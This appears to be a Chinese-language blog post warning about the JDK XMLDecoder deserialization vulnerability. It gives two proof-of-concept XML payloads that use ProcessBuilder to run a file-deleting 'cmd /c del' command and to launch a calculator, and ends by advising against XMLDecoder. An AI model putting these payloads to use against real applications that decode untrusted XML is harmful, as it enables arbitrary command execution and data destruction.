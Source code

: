 ![](http://img.javastack.cn/17-12-20/73076296.jpg)

昨天在公司发现了一个jdk中的XMLDecoder反序列化的漏洞，看起来很危险！下面通过两个示例来看看这个漏洞的危害！

#### 示例1：利用XmlDecoder删除本地文件

首先来看这个xmldecoder.xml文件内容：

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_151" class="java.beans.XMLDecoder">
	<object class="java.lang.ProcessBuilder">
		<array class="java.lang.String" length="4">
			<void index="0">
				<string>cmd</string>
			</void>
			<void index="1">
				<string>/c</string>
			</void>
			<void index="2">
				<string>del</string>
			</void>
			<void index="3">
				<string>e:\1.txt</string>
			</void>			
		</array>
		<void method="start" />
	</object>
</java>
```

再来看利用XMLDecoder解析这个xml文件的示例代码：

```
private static void byXmlFile() {
	File file = new File("E:\\xmldecoder.xml");
	XMLDecoder xd = null;
	try {
		xd = new XMLDecoder(new BufferedInputStream(new FileInputStream(file)));
	} catch (Exception e) {
		e.printStackTrace();
	}
	Object s2 = xd.readObject();
	xd.close();
}
```

这段代码执行后，直接删除了本地的e:\1.txt文件，相当于在命令行调用了cmd /c del e:\1.txt命令，直接删除了本地文件，相当恐怖！

#### 示例2：利用XmlDecoder调用本地程序

```
private static void byXmlString() {
	String xml = new StringBuilder().append("<?xml version=\"1.0\" encoding=\"UTF-8\"?>")
			.append("<java version=\"1.8.0_151\" class=\"java.beans.XMLDecoder\">")
			.append("    <object class=\"java.lang.ProcessBuilder\">")
			.append("        <array class=\"java.lang.String\" length=\"1\">")
			.append("            <void index=\"0\">")
			.append("                <string>calc</string>")
			.append("            </void>")
			.append("        </array>")
			.append("        <void method=\"start\" />")
			.append("    </object>")
			.append("</java>").toString();
	XMLDecoder xd = null;
	try {
		xd = new XMLDecoder(new ByteArrayInputStream(xml.getBytes()));
	} catch (Exception e) {
		e.printStackTrace();
	}
	Object s2 = xd.readObject();
	xd.close();
}
```

这段代码改成了用String输入源的形式，这不重要，重要的是还是利用了jdk中的XmlDecoder类来解析xml字符串。这段代码执行后，会调用出本地的计算器程序。

![](http://img.javastack.cn/17-12-20/29679880.jpg)

其中ProcessBuilder.start()的方法和Runtime.exec()方法一样，都可以被用来创建一个操作系统进程，可用来控制进程状态并获得相关信息。

ProcessBuilder的构造方法接受一个命令列表。

```
public ProcessBuilder(List<String> command) {
    if (command == null)
        throw new NullPointerException();
    this.command = command;
}
```

#### 总结

Jdk中的XmlDecoder反序列化存在安全漏洞，能调用本地的应用，也能执行系统支持的命令，一旦黑客组织成命令列表攻击系统，后果不堪设想！

我只是用ProcessBuilder类演示了调用系统程序这两种案例，当然还有其他，远不止这一种攻击手段。作者看了下，这个漏洞在jdk8_0_151版本中还存在。

建议不要用JDK中的XmlDeocder类，寻求其它更安全的xml解析工具类。

求转发，紧急扩散，避免更大程度的损失！~
